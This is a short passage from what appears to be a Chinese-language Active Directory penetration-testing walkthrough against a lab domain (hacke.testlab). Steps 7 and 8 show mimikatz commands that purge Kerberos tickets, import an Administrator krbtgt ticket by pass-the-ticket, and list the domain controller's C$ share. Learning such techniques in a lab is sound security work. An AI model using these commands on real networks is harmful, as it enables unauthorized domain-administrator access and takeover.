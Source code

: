 [![](assets/1705982146-20067f5057791ac200099a2e8bdf0b7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222851-3b3b6856-b7a0-1.png)  
Step 7：此时依旧无法访问域控  
[![](assets/1705982146-03c415a542f0494492f594f19c44f9ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222902-41c86c8c-b7a0-1.png)  
Step 8：之后使用mimikatz将这个票据导入内存中，然后成功访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```

